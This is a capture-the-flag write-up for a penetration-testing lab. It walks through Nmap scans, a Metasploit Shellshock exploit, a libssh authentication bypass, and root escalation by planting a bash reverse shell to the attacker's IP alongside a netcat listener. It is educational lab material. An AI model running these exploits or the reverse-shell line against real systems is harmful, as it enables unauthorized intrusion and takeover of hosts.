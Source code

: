 # Host & Network Penetration Testing: System-Host Based Attacks CTF 2
## Flag 1: Check the root ('/') directory for a file that might hold the key to the first flag on target1.ine.local

We begin with an Nmap scan across all ports, which reveals that only port 80 is open

    nmap -sS -O -p- -T4 target1.ine.local
    nmap -sS -O -p80 -sV -T4 target1.ine.local

A service scan reveals Apache 2.4.6 (Unix) on the target system.

We proceed with a Dirb scan to enumerate possible useful folders. It finds cgi-dbin folder and the home page of the site named browser.cgi.
This suggest we could attempt a Shellshocked vulnerability exploit.

    nmap target1.ine.local --script http-shellshock --script-args "http-shellshock.uri=/browser.cgi"

Nmap reveals that the file browser.cgi is vulnerable to Shellshock.

We proceed with Metasploit:

    search shellshock
    use exploit/multi/http/apache_mod_cgi_bash_env_exec
    setg RHOSTS target1.ine.local
    setg TARGETURI /browser.cgi
    setg LHOST 192.164.224.2 
    run

**Note: If something is not working, try selecting another LPORT.**

We obtain a Meterpreter session and start exploring the target server, finding .flag.txt as our second flag.
Navigating to the root directory, we locate the first flag.

## Flag 2: In the server's root directory, there might be something hidden. Explore '/opt/apache/htdocs/' carefully to find the next flag on target1.ine.local.

This flag is found during the previous step.


## Flag 3: Investigate the user's home directory and consider using 'libssh_auth_bypass' to uncover the flag on target2.ine.local.

Analyzing target 2, we scan it with Nmap. The scan leads us to port 22 and its service, libssh 0.8.3.

    nmap target2.ine.local -p- -T4 -sS
    nmap target2.ine.local -p22 -T4 -sS -sV

Using:
    searchsploit libssh

we discover that this particular version of libssh is vulnerable to unauthorized access.

We proceed with Metasploit:
search libssh
use auxiliary/scanner/ssh/libssh_auth_bypass - action: shell
setg RHOSTS target2.ine.local
set CMD /bin/bash -i
run
sessions -i 1

Navigating to the home folder of the user, we locate the third flag.


## Flag 4: The most restricted areas often hold the most valuable secrets. Look into the '/root' directory to find the hidden flag on target2.ine.local.

Obtaining a root shell is not an easy task. However, there is an executable file in the user’s home folder named welcome, which the user is able to execute. This file runs another file, greetings, that is not accessible.

We overwrite greetings with a file containing the following string:
 
bash -i >& /dev/tcp/192.164.224.2/41234 0>&1

After using Netcat to open port on the attack machine to listen for communications:

nc -nlvp 41234

We execute welcome, that executes greetings, obtaining a root shell on the target machine.

Navigating to the root folder we find the last flag.
